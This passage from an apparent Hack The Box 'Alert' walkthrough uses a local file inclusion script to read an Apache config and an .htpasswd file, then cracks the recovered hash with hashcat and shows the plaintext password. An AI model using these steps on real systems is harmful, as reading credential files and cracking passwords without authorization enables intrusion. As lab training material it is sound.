 ```
chmod +x lfi.py
```

Since the `statistics.alert.htb` host is password-protected, let's try to find its hash.

```
./lfi.py /etc/apache2/sites-enabled/000-default.conf
```

```
<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

From the output, we see that the password file is located at `/var/www/statistics.alert.htb/.htpasswd`.

```
./lfi.py /var/www/statistics.alert.htb/.htpasswd

albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

Now we attempt to crack the hash using `hashcat`.

```
hashcat -m 1600 hash rockyou.txt
```

After some time, the hash is cracked, revealing the plaintext password.

```
hashcat hash --show

$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited
```
